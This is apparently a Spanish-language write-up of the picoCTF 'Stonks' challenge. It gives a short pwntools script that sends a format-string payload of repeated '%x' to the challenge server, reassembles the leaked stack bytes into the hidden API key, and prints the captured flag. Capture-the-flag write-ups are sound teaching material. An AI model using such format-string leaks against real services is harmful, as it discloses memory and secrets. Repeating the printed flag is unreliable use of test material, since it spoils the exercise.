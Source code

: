 ## Descripcion
I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c](https://mercury.picoctf.net/static/a4ce675e8f85190152d66014c9eebd7e/vuln.c) `nc mercury.picoctf.net 59616`

## Pistas
Okay, maybe I'd believe you if you find my API key.

## Solucion
Analizar el código fuente del problema
Crear un sript para introducir el valor necesario para descifrar la llave API y obtener la bandera
```bash
from pwn import *

s = ""
r = remote('mercury.picoctf.net', 59616)
r.recvuntil("View my")
r.send("1\n")
r.recvuntil("What is your API token?\n")
r.send("%x" + "-%x"*40 + "\n")
r.recvline()
x = r.recvline()
x = x[:-1].decode()
for i in x.split('-'):
        if len(i) == 8:
                a = bytearray.fromhex(i)
                for b in reversed(a):
                        if b > 32 and b < 128:
                                s += chr(b)
print(s)
```

## Bandera
picoCTF{I_l05t_4ll_my_m0n3y_6148be54}

## Notas



